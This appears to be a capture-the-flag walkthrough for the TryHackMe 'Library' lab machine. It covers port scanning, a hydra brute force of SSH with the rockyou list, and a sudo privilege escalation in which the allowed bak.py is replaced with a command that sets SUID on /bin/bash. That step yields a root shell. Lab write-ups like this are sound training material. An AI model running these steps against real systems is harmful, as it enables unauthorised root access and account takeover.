





[*← Back to index*](../../README.md)

# Library

This Write-up/Walkthrough provides my process for the **Library** *(THM)* CTF. Here you will find the solution for the machine. I encourage you to use this as a reference, not a direct solution.

## Scan

Let's start with the scan:

```
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 10.112.179.188

  Discovered open port 22/tcp on 10.112.179.188
  Discovered open port 80/tcp on 10.112.179.188
```

```
nmap -p22,80 -sV -sC 10.112.179.188

  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
  |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
  |_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Welcome to  Blog - Library Machine
  | http-robots.txt: 1 disallowed entry 
  |_/
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I found 2 ports opened:

  * **22**: SSH
  * **80**: HTTP → Apache httpd 2.4.18

---

## Pasive Recognition

```
whatweb 10.112.179.188

  ERROR Opening: https://10.112.179.188 - Connection refused - connect(2) for "10.112.179.188" port 443
  http://10.112.179.188 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.112.179.188], Title[Welcome to  Blog - Library Machine]
```
Let's go to the website running on port 80:



The first thing I do when I log in is check the `robots.txt`



I noticed there was a form at the bottom of the page with a POST request, so I tried to see if I could perform an SQL injection, but there's nothing there.

So I found where it says the username `meliodas`



After looking a while for more information, I decided to try with the user `meliodas` using hydra. Do you remember `robots.txt` allows **rockyou** as User Agent? Well, I tried bruteforcing with this list:



---

## Active Recognition

Perfect, we have the credentials, now it's time to log in via SSH:



As you can see in the image above, there is a `bak.py` script:

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Let's leave it at that for now and come back to it later.

I checked the `/var/www/html` and we do not have write permission, also I checked `/var/backups/website.zip` and it's empty.

Let's check the sudo permissions

```
sudo -l

Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Given this, I wondered: "If root is owner and only root can write the file in OUR directory, what happens if I delete and create a new one owned by US?"

And that was exactly what I did — that was the solution

```
rm /home/meliodas/bak.py

echo 'import os; os.system("chmod +s /bin/bash")' > /home/meliodas/bak.py

sudo /usr/bin/python3 /home/meliodas/bak.py

bash -p

whoami
root
```
Ecco! We are root, from here we can run:

```
cat /root/root.txt
```

[*← Back to index*](../../README.md)